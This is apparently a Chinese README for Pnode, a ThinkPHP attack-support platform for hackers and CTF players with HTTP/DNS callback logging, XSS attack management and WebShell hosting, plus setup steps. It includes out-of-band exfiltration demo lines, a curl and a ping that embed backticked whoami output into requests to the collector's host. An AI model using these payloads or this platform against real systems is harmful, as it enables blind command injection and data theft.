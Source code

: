 ```
   ___                 _      
  / _ \_ __   ___   __| | ___ 
 / /_)/ '_ \ / _ \ / _` |/ _ \
/ ___/| | | | (_) | (_| |  __/
\/    |_| |_|\___/ \__,_|\___|
                              
```

ps: 请使用chrome浏览器

### 项目名称

Pnode

### 项目描述

前端使用Boostrap框架，后端使用thinkphp5框架开发

适用于hacker&CTFer

可以满足日常的需求，并且可以直接在WEB端管理&编辑一些文件用于远程加载

### 功能介绍

* HTTP log
* DNS log
* XSS攻击管理模块
* WebShell等文件管理模块

```
curl http://127.0.0.1:10082/public/?c=`whoami`
```



![](https://ws4.sinaimg.cn/large/006tNc79ly1fzbpadxielj31ik0m6ac2.jpg)



```
ping -c 2 `whoami`.pnode.tk
```



![](https://ws1.sinaimg.cn/large/006tNc79ly1fzb0a7st2ej31fc0dmdi0.jpg)

![](https://ws1.sinaimg.cn/large/006tNc79ly1fzbr5mp56uj31fb0u0afo.jpg)

![](https://ws2.sinaimg.cn/large/006tNc79ly1fzbr6j7i0zj31r00su41a.jpg)





### 环境部署

LAMP环境即可

修改database.php中数据库账号密码

自行修改默认登陆密码(md5后的)

```
update users set password=md5('admin') where username='admin'
```

如果需要DNS log功能,首先`https://my.freenom.com/`注册一个账号,然后免费申请一个域名

![](https://ws3.sinaimg.cn/large/006tNc79ly1fzb0n0s9k9j320g0rygu7.jpg)

![](https://ws4.sinaimg.cn/large/006tNc79ly1fzb0otdeumj31se0o2n0g.jpg)

然后将你的vps的外网ip填入

然后一直继续即可

然后将dns.py放入到`/tmp`目录下

修改dns.py为你的域名和你的vps ip,然后手动启动dns服务

```
nohup python /tmp/dns.py &
```

在一个小时左右将会解析成功,然后就可以接受到log。


* PS:部分模块代码取自火日师傅项目,感谢。
